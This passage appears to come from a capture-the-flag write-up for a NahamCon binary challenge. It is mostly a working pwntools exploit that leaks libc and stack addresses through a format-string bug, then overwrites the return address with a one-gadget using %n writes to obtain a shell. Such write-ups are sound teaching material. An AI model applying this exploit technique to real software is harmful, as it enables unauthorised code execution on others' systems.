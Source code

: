 ```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./reading_list', checksec=False)

if args.REMOTE:
    libc = ELF('libc-2.31.so', checksec=False)
    libc.symbols['gadget'] = 0xe3b31
    libc_start_main_offset = 243
    p = remote('challenge.nahamcon.com', 30933)
else:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
    libc.symbols['gadget'] = 0xe3b31
    libc_start_main_offset = 243
    p = process(binary.path)

p.sendlineafter(b'name: ', b'foo')
p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'name: ', b'%23$018p %7$018p')
p.sendlineafter(b'> ', b'1')
p.recvuntil(b'1. ')
_ = p.recvline().strip().decode().split()
libc.address = int(_[0],16) - libc.sym.__libc_start_main - libc_start_main_offset
rsp = int(_[1],16) - 0x40
ret = rsp + 0x28

log.info('libc.address: {x}'.format(x = hex(libc.address)))
log.info('libc.sym.gadget: {x}'.format(x = hex(libc.sym.gadget)))
log.info('rsp: {x}'.format(x = hex(rsp)))
log.info('ret: {x}'.format(x = hex(ret)))
```

We start by leaking libc and the stack, then computing the locations of libc and the return address.

> If you do not understand why 23, 7, 243, 0x40, and 0x28, look at the stack above in the Analysis section.

```python
payload = b''
for i in range(3): payload += p64(ret + i*2)

p.sendlineafter(b'> ', b'4')
p.sendlineafter(b'name: ', payload)
```

With the location of the return address known, we can change our _name_ so that the 3 shorts that make up the 48-bit address of the return address can be set on the stack to be used by our format-string attack.

```python
payload = b''
offset = 14
for i in range(3):
    payload = b'%' + str((libc.sym.gadget >> i*16) & 0xFFFF).encode() + b'c%' + str(offset + i).encode() + b'$n'
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'name: ', payload)

p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'name: ', b'bookend')
p.sendlineafter(b'> ', b'1')
p.recvuntil(b'bookend\n')
p.interactive()
```